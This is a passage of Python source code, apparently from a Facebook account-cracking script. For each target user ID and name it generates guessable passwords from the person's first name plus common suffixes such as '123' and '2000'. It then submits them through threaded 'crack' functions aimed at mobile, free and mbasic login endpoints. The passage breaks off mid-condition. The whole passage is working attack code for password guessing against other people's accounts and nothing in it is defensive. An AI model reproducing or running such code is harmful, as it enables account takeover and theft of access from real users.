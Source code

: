					pwv.append(frs+frs)
					pwv.append(frs+'2000')
					pwv.append(frs+'2121')
					pwv.append(frs+'1@2@3@')
					pwv.append('123'+frs)
					pwv.append('1234'+frs)
					pwv.append('12345'+frs)
					

			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(crackfree,idf,pwv)
			elif 'mbasic' in method:
				pool.submit(crackmbasic,idf,pwv)
			else:
				pool.submit(crackmbasic,idf,pwv)
	print('')
	exit()
def passwrd2():
	os.system('clear')
	banner()
	print("")
	with tred(max_workers=20) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(frs) == 3 or len(frs) == 4 or len(frs) == 5 or len(frs) == 6 or len(frs) == 7 or len(frs) == 8 or len(frs) == 9 or len(frs) == 10 or len(frs) == 11 or len(frs) == 12:
					pwv.append(nmf)
					pwv.append(nmf)
			else:
					pwv.append(nmf)
					pwv.append(nmf)
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(crackfree,idf,pwv)
			elif 'mbasic' in method:
				pool.submit(crackmbasic,idf,pwv)
			else:
				pool.submit(crackmbasic,idf,pwv)
	print('')
	exit()
def passwrd3():
	os.system('clear')
	banner()
	print("")
	with tred(max_workers=25) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(frs) == 3 or len(frs) == 4 or len(frs) == 5 or len(frs) == 6 or len(frs) == 7 or len(frs) == 8 or len(frs) == 9 or len(frs) == 10 or len(frs) == 11 or len(frs) == 12: